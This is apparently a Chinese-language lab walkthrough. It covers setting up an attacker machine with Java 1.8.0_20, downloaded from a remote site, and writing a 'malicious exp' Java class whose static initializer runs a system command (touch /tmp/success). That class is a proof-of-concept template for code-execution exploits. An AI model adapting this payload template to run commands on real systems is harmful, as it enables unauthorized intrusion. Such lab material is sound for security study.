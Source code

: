#### 攻击机环境

```
下载并配置java 1.8.0_20环境
sudo mkdir -p /usr/local/java
cd /usr/local/java
curl http://www.joaomatosf.com/rnp/java_files/jdk-8u20-linux-x64.tar.gz -o jdk- 8u20-linux-x64.tar.gz
tar zxvf jdk-8u20-linux-x64.tar.gz
sudo vim /etc/profile

文件末尾添加：
JAVA_HOME=/usr/local/java/jdk1.8.0_20
PATH=$PATH:$HOME/bin:$JAVA_HOME/bin
export JAVA_HOME
export PATH

sudo update-alternatives --install "/usr/bin/java" "java" "/usr/local/java/jdk1.8.0_20/bin/java" 1
sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/local/java/jdk1.8.0_20/bin/javac" 1
sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/local/java/jdk1.8.0_20/bin/javaws" 1
sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/local/java/jdk1.8.0_20/bin/javaws" 1

配置kali jdk环境
source /etc/profile
apt install default-jdk


如果有1.80版本的Java可以直接跳到这一步
切换版本
update-alternatives --config java
update-alternatives --config javac

```

任意位置恶意exp代码

```
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}

cd到Exp.java文件的位置并执行
javac Exp.java    结果如下

```
